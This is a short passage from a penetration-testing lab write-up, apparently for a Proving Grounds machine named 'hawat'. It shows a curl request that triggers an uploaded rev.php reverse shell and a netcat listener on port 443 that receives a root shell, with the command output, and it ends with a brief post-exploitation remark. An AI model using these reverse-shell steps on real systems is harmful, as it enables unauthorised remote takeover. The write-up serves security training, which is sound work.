 Use curl to hit the uploaded rev.php reverse shell and get a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ curl http://192.168.232.147:30455/rev.php

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/hawat]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.147] 51890
Linux hawat 5.10.14-arch1-1 #1 SMP PREEMPT Sun, 07 Feb 2021 22:42:17 +0000 x86_64 GNU/Linux
 04:35:31 up  1:40,  0 users,  load average: 0.09, 0.06, 0.03
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
sh: cannot set terminal process group (565): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# id
id
uid=0(root) gid=0(root) groups=0(root)


```

# Post-Exploitation

---

The exploit provided a root shell so no post-exploitation is required.
